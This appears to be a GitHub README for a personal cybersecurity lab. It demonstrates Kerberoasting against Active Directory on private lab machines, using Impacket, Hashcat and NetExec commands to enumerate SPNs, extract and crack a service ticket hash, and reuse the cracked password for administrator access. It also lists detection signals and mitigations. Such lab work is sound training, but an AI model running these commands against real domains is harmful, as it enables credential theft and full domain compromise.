




# Active Directory Kerberoasting Attack Lab

## Overview

This project demonstrates a **Kerberoasting attack against Active Directory** in a controlled lab environment. The attack involves requesting Kerberos service tickets for service accounts with Service Principal Names (SPNs), extracting the encrypted ticket hashes, cracking them offline, and leveraging weak password practices to gain administrative access.

The lab simulates a realistic attack scenario where a service account password is reused by a domain administrator.

---

## Lab Environment

| Machine | Role | IP |
|-------|------|------|
| Kali Linux | Attacker | 192.168.56.20 |
| Windows Server 2016 | Domain Controller | 192.168.56.10 |
| Windows 11 | Domain Client | 192.168.56.30 |

### Tools Used

- Impacket
- Hashcat
- NetExec (successor to CrackMapExec)
- Nmap

---

# Attack Walkthrough

## 1. SPN Enumeration

Using Impacket to enumerate Service Principal Names in the domain.

```bash
impacket-GetUserSPNs corp.local/labuser:Labuser123! -dc-ip 192.168.56.10
```

This identifies service accounts with registered SPNs.

Example output:

```
ServicePrincipalName                Name
MSSQLSvc/sql.corp.local:1433        sqlsvc
```
Screenshot:

 

---

## 2. Kerberoasting Attack

Requesting a Kerberos service ticket for the service account.

```bash
impacket-GetUserSPNs corp.local/labuser:Labuser123! -dc-ip 192.168.56.10 -request
```

This returns a Kerberos TGS hash.

Example:

```
$krb5tgs$23$*sqlsvc$CORP.LOCAL...
```

This hash can be cracked offline.

Screenshot:

 

---

## 3. Hash Cracking

The Kerberos ticket hash is cracked using Hashcat.

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Hashcat successfully recovers the service account password.

---

## 4. Credential Validation

Using NetExec to verify the credentials against the domain controller.

```bash
nxc smb 192.168.56.10 -u sqlsvc -p PASSWORD
```

The credentials successfully authenticate to the system.

Screenshot:

 

---

## 5. Password Reuse Discovery

Testing the cracked password against other accounts revealed that the **Administrator account reused the same password**.

```bash
nxc smb 192.168.56.10 -u administrator -p PASSWORD
```

Result:

```
Pwn3d!
```

This confirms **administrator access to the domain controller**.

Screenshot:

 

---

# Impact

This attack demonstrates how:

- Service accounts with SPNs can be targeted through Kerberoasting.
- Weak passwords can be cracked offline.
- Password reuse can lead to **full domain compromise**.

---

# Detection Opportunities

Security teams can detect Kerberoasting attacks by monitoring:

- Unusual Kerberos TGS requests (Event ID 4769)
- Large volumes of service ticket requests
- Authentication attempts from unusual hosts

---

# Mitigation Strategies

To prevent Kerberoasting attacks:

- Use **strong, complex passwords for service accounts**
- Implement **Group Managed Service Accounts (gMSA)**
- Enforce **password uniqueness policies**
- Monitor Kerberos ticket requests

---

# MITRE ATT&CK Mapping

| Technique | ID |
|--------|------|
| Kerberoasting | T1558.003 |
| Credential Dumping | T1003 |
| Valid Accounts | T1078 |

---

# Key Takeaways

This lab demonstrates how attackers can move from **low privilege domain access to full administrative compromise** through Kerberoasting and password reuse.

---

# Skills Demonstrated

- Active Directory enumeration
- Kerberos authentication attacks
- Password cracking
- Credential validation
- Post-exploitation techniques

---

# Author
Syed Naser

Cybersecurity Lab Project focused on **Active Directory attack simulation and detection techniques**.
